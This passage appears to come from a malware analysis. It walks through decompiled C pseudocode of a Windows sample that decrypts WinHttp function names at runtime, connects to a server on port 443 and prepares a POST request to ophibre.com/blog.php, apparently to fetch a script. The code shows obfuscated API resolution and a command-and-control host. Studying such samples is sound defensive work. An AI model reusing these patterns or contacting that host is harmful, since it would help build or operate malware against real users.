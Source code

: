 Then it retrieves the handle for the connection to the server using `WinHttpConnect` with the session handle, the server name, and the port:

```c
GetEncryptedDataOf_WinHttpConnect(&var_191, &var_190);
void* name_WinHttpConnect = DecryptData_5(&var_190);
void var_1c1;
void var_1c0;
GetEncryptedDataOf_winhttp_2(&var_1c1, &var_1c0);
void* name_winhttp_2;
int64_t r8_1;
name_winhttp_2 = DecryptData_4(&var_1c0);
void* WinHttpConnect =
    ResolveFunction(name_winhttp_2, name_WinHttpConnect, r8_1, r9);
void var_1f1;
void EncryptedNameOf_server;
GetEncryptedDataOf_ServerName(&var_1f1, &EncryptedNameOf_server);
void* server_name;
int64_t port;
server_name = DecryptData_4(&EncryptedNameOf_server);
(uint16_t)port = 443;
int64_t hConnect;
int64_t r9_1;
hConnect = WinHttpConnect(hSession, server_name, port, 0);
```
Afterwards, it constructs a `POST` request intended to prepare for the download of the script (to be determined):

```c
GetEncryptedDataOf_WinHttpOpenRequest(&var_221, &var_220);
void* name_WinHttpOpenRequest = DecryptData_7(&var_220);
void var_251;
void var_250;
GetEncryptedDataOf_winhttp_3(&var_251, &var_250);
void* name_winhttp_3;
int64_t r8_2;
name_winhttp_3 = DecryptData_4(&var_250);
void* WinHttpOpenRequest = ResolveFunction(name_winhttp_3, name_WinHttpOpenRequest, r8_2, r9_1);
// Target of request blog.php
// ophibre.com/blog.php
void var_279;
void var_278;
GetEncryptedDataOf_blogphp(&var_279, &var_278);
void* name_blogphp = DecryptData_6(&var_278);
void var_299;
void encrypted_POST;
GetEncryptedDataOf_Request_POST(&var_299, &encrypted_POST);
int64_t hRequest;
int64_t r9_2;
hRequest = WinHttpOpenRequest(hConnect, sub_7ffa1bc4ca70(&encrypted_POST), name_blogphp, 0, 0, 0, 0x800000);
```
